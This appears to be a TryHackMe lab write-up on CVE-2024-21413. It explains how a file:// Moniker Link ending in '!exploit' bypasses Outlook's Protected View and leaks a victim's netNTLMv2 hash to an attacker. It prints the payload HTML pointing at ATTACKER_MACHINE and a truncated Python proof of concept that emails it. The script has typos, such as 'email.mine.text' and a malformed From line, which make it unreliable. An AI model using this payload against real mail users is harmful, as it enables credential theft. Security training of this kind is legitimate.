 #tryhackme #cybersecurity101 #exploitation

Outlook can render emails as HTML. You may notice this being used by your favorite newsletters. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPs. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers). Normally, outlook will prompt a security warning when external applications are triggered. 

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in *read-only mode*, blocking things such as macros (especially from outside the organization).

By using the `file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP>/test>Click me</a>`). The SMB protocol is used, which involves using local credentials for authentication. However Outlook's protected view catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook's Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit>Click me</a>`.

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links use the **Component Object Model** on Windows. However, explaining this is currently out of the scope of this room, as there is no publicly released proof of concept for achieving RCE via this specific CVE.
# Exploitation

For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim's client will attempt to load a file from our attacking machine, resulting in the victim's netNTLMv2 hash being captured.

But first, let's run through a PoC I have created (which is also available via [GitHub](https://github.com/CMNatic/CVE-2024-21413))

```python
import smtplib
from email.mine.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with sender email address
reciever_email = 'victim@monikerlink.thm' # Replace with recipient email address
password = input("Enter your email address and password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
	<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

	</body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["FROM"] formataddr(('CMNatic', sender_email))
message["To"] = reciever_email

```